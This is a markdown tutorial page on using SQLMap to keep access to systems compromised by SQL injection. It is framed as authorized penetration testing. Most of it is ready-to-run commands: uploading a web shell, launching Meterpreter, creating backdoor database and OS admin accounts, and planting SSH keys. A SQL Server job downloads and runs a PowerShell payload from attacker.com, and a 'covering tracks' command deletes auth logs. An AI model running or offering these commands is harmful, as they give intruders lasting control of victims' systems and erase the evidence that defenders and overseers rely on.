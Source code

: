 ```yaml
---
title: Maintaining Access
description: Learn how to establish persistent access using SQLMap's advanced techniques
---
```


# Maintaining Access

SQLMap provides several methods to establish persistent access to vulnerable systems after successful SQL injection exploitation. These techniques are valuable for authorized penetration testing scenarios where maintaining access is part of the assessment scope.

## Backdoor Deployment Options

### Web Shell Deployment

SQLMap can deploy a web shell to maintain access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

This uploads a local file to the target web server directory, allowing subsequent access through the web interface.

### Metasploit Integration (`--os-pwn`)

To establish a Meterpreter session:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This command:
1. Generates a Metasploit payload
2. Uploads it to the target server
3. Executes it to establish a Meterpreter session
4. Connects back to your Metasploit handler

### SMB Relay Attack (`--os-smbrelay`)

For Windows targets:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

This establishes access using SMB relay techniques, which can be effective in Windows environments.

## Database-Level Persistence

### Creating Database Backdoor Users

To create a new database user with administrative privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';"
```

This creates a new database user that can be used for future access.

### Scheduled Tasks and Jobs

For SQL Server, you can create a SQL Agent job:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="EXEC msdb.dbo.sp_add_job @job_name='maintenance', @enabled=1; EXEC msdb.dbo.sp_add_jobstep @job_name='maintenance', @step_name='step1', @command='EXEC xp_cmdshell ''powershell -c \"IEX (New-Object Net.WebClient).DownloadString(''''http://attacker.com/payload.ps1'''')\"'''; EXEC msdb.dbo.sp_add_jobschedule @job_name='maintenance', @name='daily', @freq_type=4, @freq_interval=1, @active_start_time=010000;"
```

This creates a scheduled job that executes a command periodically.

## System-Level Persistence

### Creating System Users

On Unix-based systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="useradd -m -p $(openssl passwd -1 password123) backdoor && usermod -aG sudo backdoor"
```

On Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="net user backdoor password123 /add && net localgroup administrators backdoor /add"
```

### SSH Key Deployment

To add an SSH key for persistent access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="id_rsa.pub" --file-dest="/home/user/.ssh/authorized_keys"
```

This adds your public key to the authorized_keys file, allowing SSH access without a password.

## Covering Tracks

After establishing persistence, it's important to clean up evidence:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="rm -f /var/log/auth.log"
```


## Best Practices for Authorized Testing

When maintaining access during authorized penetration tests:

1. Document all persistence mechanisms deployed
2. Use unique identifiers for all created accounts and files
3. Set up proper cleanup procedures for after the test
4. Ensure all persistence mechanisms are removed at the end of testing
5. Coordinate with the system owners about the persistence methods used

Remember that the goal of security testing is to improve security, not to compromise it. Always follow responsible disclosure practices and the agreed-upon rules of engagement.

